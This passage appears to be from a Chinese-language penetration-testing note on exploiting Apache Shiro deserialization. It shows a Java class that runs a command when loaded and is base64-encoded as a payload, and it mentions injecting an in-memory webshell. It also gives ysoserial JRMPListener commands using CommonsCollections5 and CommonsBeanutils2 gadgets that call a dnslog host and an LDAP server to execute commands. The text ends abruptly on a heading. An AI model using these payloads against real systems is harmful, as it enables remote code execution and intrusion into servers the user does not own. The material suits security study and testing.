 ![image-20230930175016176](../../../images/image-20230930175016176.png)

**生成外部字节码内容**

```bash
public class CalcTest {
    public CalcTest() throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}

javac CalcTest.java
cat CalcTest.class |base64|sed ':label;N;s/\n//;b label'
```

**发送payload**

![image-20230930175509511](../../../images/image-20230930175509511.png)

**人家工具已经实现了**

注入内存马

![image-20230930180023456](../../../images/image-20230930180023456.png)





## 有key无链

>  用现在公开的 dns或者延迟探测 爆破试探存在的class包 工具都现成的 
>
> 然后根据存在的包判断版本差异自己构造组合链 都知道官方链方便盯着关键函数，通用的rce链基本都藏着官方修复都没得玩 
>
> 现在比较多的是利用第三方服务比如mysql redis jdbc 通过有限操作的链去利用

链子多的工具：shiro-tool ，经常识别出JRMP Cilent（🥦🐕只会用工具）

[shiro反序列漏洞中JRMPClient利用 (qq.com)](https://mp.weixin.qq.com/s/Hm2HA4G2r6ZFgxdddJ6Puw)

[shiro JRMP gadget | BlogPapers (sumsec.me)](https://sumsec.me/2021/shiro-JRMP-gadget.html)

ysoserial起JRMP服务

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping w3dh1h.dnslog.cn"

java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://ip:1389/Basic/Command/Whoami"
```



由于Shiro重写了resolveClass方法，将原生方法中的forName方法替换为loadClass方法，由于loadClass无法加载数组类型的类，因此存在Transformer[]类的CommonCollections gadget无法成功利用此漏洞，（例如ysoserial CommonCollections1、CommonCollections3）

思路：
